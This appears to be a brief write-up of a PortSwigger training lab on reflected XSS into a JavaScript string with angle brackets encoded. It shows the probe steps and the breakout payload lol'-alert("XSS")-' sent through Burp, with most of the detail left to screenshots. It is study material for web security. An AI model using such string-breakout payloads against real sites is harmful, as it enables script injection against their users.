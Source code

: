 # Reflected XSS into a JavaScript string with angle brackets HTML encoded

Lab URL :- `https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded`

![image](https://user-images.githubusercontent.com/60841283/182375480-2ebc8cd7-389e-4d56-8555-fdfdbcc43ff9.png)

Normal Search query :- `lol`

![image](https://user-images.githubusercontent.com/60841283/182375656-96c2b7e6-6c8f-4470-a546-e659ad6ce585.png)

Using `'` symbol :- 

![image](https://user-images.githubusercontent.com/60841283/182385052-255ee15d-8a17-4e9c-af2b-41567c206b48.png)

Payload in Burp :- `lol'-alert("XSS")-'`

![image](https://user-images.githubusercontent.com/60841283/182375262-6786ebb7-457f-4252-b3d3-878308472912.png)

![image](https://user-images.githubusercontent.com/60841283/182386281-b8ec4084-ecf1-4468-a7cf-9739bf53ad73.png)
